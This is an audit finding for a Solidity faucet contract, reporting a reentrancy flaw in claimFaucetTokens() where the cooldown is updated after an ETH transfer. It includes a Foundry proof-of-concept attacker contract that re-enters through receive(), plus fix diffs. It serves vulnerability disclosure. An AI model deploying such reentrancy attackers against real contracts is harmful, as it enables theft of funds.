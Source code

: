 # Reentrancy `claimFaucetTokens()`

## Summary

The `claimFaucetTokens()` function is vulnerable to reentrancy attacks allowing multiple token claims due to cooldown state updates after external call.

## Description

### Normal Behavior

- Users can claim tokens once every 3 days (cooldown period)

- First-time claimers receive both tokens and ETH

### Issue

The contract updates cooldown state after external calls, enabling reentrancy during ETH transfers:

```solidity
function claimFaucetTokens() public {
    //...
    if (!hasClaimedEth[faucetClaimer] && !sepEthDripsPaused) {
        //...
        if (dailyDrips + sepEthAmountToDrip <= dailySepEthCap && address(this).balance >= sepEthAmountToDrip) {
            //...
            (bool success,) = faucetClaimer.call{value: sepEthAmountToDrip}("");
            //...
        }
    //...
    //Effects
    lastClaimTime[faucetClaimer] = block.timestamp;
    dailyClaimCount++;
    //...
}
```

## Risk

### Impact

**Medium**

- Attackers can bypass the 3-day cooldown mechanism

- Unfair advantage over legitimate users

- Token distribution occurs faster than intended

### Likelihood

**High**

- Only requires deploying a contract with malicious `receive()` function

- No special timing or chain conditions needed

- Deterministic exploit that works every time

- Only applies to first-time ETH claimers (limited scope)

## Proof of Concept

### Textual PoC

1. Attacker deploys malicious contract with `receive()` function
2. Attacker calls `claimFaucetTokens()` (first time, eligible for ETH)
3. Contract sends ETH to attacker's contract via `call("")`
4. Attacker's `receive()` re-enters `claimFaucetTokens()`
5. Since `lastClaimTime` hasn't been updated yet, cooldown check passes
6. Attacker receives tokens again without waiting 3-day cooldown

### Coded PoC

```Solidity
function testReentrancyAttack() public {
    vm.startPrank(user1);

    ReentrancyAttacker attacker = new ReentrancyAttacker();
    attacker.attack(raiseBoxFaucet);
    assertEq(raiseBoxFaucet.balanceOf(user1), raiseBoxFaucet.faucetDrip() * 2);

    vm.stopPrank();
}

contract ReentrancyAttacker {
    function attack(RaiseBoxFaucet raiseBoxFaucet_) public {
        raiseBoxFaucet_.claimFaucetTokens();
        raiseBoxFaucet_.transfer(msg.sender, raiseBoxFaucet_.balanceOf(address(this)));
    }

    receive() external payable {
        RaiseBoxFaucet raiseBoxFaucet = RaiseBoxFaucet(payable(msg.sender));
        if (raiseBoxFaucet.getUserLastClaimTime(address(this)) + 3 days <= block.timestamp) {
            raiseBoxFaucet.claimFaucetTokens();
        }
    }
}
```

**Reentrancy.t.sol**: <https://github.com/Luu-Duc-Toan/2025-10-raisebox-faucet/blob/main/test/Reentrancy.t.sol>

## Recommended Mitigation

1. Move cooldown state updates before external calls:

```diff
function claimFaucetTokens() public {
    //...
+   // Effects
+   lastClaimTime[faucetClaimer] = block.timestamp;
+   dailyClaimCount++;

    if (!hasClaimedEth[faucetClaimer] && !sepEthDripsPaused) {
        // ...
        if (dailyDrips + sepEthAmountToDrip <= dailySepEthCap && address(this).balance >= sepEthAmountToDrip) {
            //...
            // Interactions
            (bool success,) = faucetClaimer.call{value: sepEthAmountToDrip}("");
            //...
        }
    }
-   // Effects
-   lastClaimTime[faucetClaimer] = block.timestamp;
-   dailyClaimCount++;
    //...
}
```

1. Add OpenZeppelin's ReentrancyGuard:

```diff
+ import "@openzeppelin/contracts/security/ReentrancyGuard.sol";

- contract RaiseBoxFaucet is ERC20, Ownable {
+ contract RaiseBoxFaucet is ERC20, Ownable, ReentrancyGuard {
    function claimFaucetTokens() public nonReentrant {
        //...
    }
}
```

